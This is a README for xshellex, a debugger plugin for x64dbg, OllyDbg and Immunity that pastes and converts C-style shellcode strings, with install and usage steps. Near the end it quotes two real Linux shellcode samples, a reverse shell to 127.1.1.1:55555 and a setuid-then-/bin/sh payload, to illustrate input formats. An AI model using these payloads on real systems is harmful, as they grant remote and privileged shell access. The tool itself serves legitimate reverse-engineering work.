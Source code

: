 # xshellex
With xshellex you can paste any kind of c-shellcode strings in x64dbg, ollydbg & immunity debugger. Also you can convert the "binary-copied-clipboard" to c-shellcode string.

This plugin uses my shellex c-shellcode converter to HEX:
* https://github.com/David-Reguera-Garcia-Dreg/shellex

## Install

Just download https://github.com/David-Reguera-Garcia-Dreg/xshellex/releases/download/r0.1b/xshellex01b.zip

### x64dbg

Extract the .zip in the x64dbg folder:

Now check if you have installed:
* x64dbg\release\tcc
* x64dbg\release\shellex.exe
* x64dbg\release\x32\plugins\xshellex.dp32
* x64dbg\release\x64\plugins\xshellex.dp64

### ollydbg

Copy the ollydbg folder content to ollydbg path (I use C:\odbg110)

Now check if you have installed:
* C:\odbg110\tcc
* C:\odbg110\shellex.exe
* C:\odbg110\shellex.dll

### immunity debugger

Copy the immunity folder content to C:\Program Files (x86)\Immunity Inc\Immunity Debugger

Now check if you have installed:
* C:\Program Files (x86)\Immunity Inc\Immunity Debugger\tcc
* C:\Program Files (x86)\Immunity Inc\Immunity Debugger\shellex.exe
* C:\Program Files (x86)\Immunity Inc\Immunity Debugger\shellex.dll

## Use

Go to Plugins --> xshellex --> launch

Paste your c-shellcode string

Press enter

Press Control+Z

Copy the output to clipboard

![Alt text](launch.png)

Use x64dbg Binary Paste (right click in disasm)

![Alt text](binary_paste.png)

WARNING: In x64dbg you can use Paste ignore size BUT in ollydbg & immunity debugger you must select first a long area:

![Alt text](immunity.png)

![Alt text](ollydbg_paste.png)

## Converting binary-copied-clipboard to c-shellcode string

Select area

Right click --> Binary ---> Copy

![Alt text](binary_copy.png)

Go to Plugins --> xshellex --> clipboard to ....

![Alt text](clipboard_to_shellcode.png)

## Why this plugin?

In real world yummyPaste plugin cant works fine, because you have a lot of garbage to filter, just check shellcodes like

http://shell-storm.org/shellcode/files/shellcode-833.php
```
unsigned char code[] = \

"\x68"
"\x7f\x01\x01\x01"  // <- IP Number "127.1.1.1"
"\x5e\x66\x68"
"\xd9\x03"          // <- Port Number "55555"
"\x5f\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02"
"\x89\xe1\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79"
"\xf9\xb0\x66\x56\x66\x57\x66\x6a\x02\x89\xe1\x6a"
"\x10\x51\x53\x89\xe1\xcd\x80\xb0\x0b\x52\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53"
"\xeb\xce";
```

https://www.exploit-db.com/exploits/13359
```
char sc[] = /* 7 + 23 = 30 bytes */
"\x6a\x17\x58\x31\xdb\xcd\x80"
"\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80";
```
